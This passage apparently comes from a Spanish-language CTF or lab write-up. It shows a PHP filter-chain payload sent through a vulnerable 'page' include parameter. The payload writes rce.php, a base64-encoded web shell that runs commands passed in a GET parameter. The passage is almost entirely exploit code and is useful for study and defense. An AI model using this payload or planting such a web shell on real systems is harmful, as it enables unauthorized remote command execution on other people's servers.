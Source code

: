 
Ahora que comprobamos que se ejecuta comandos, podemos realizar la la otra petición donde subiremos un archivo `rce.php` 

```c
[...]

s.get(base_url + "/?page=" + filter_chain + "&0=file_put_contents('rce.php',base64_decode('PD89YCRfR0VUWzBdYD8%2b'));")

[...]
```

```c
/?page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=home&0=file_put_contents('rce.php',base64_decode('PD89YCRfR0VUWzBdYD8%2b'));
```
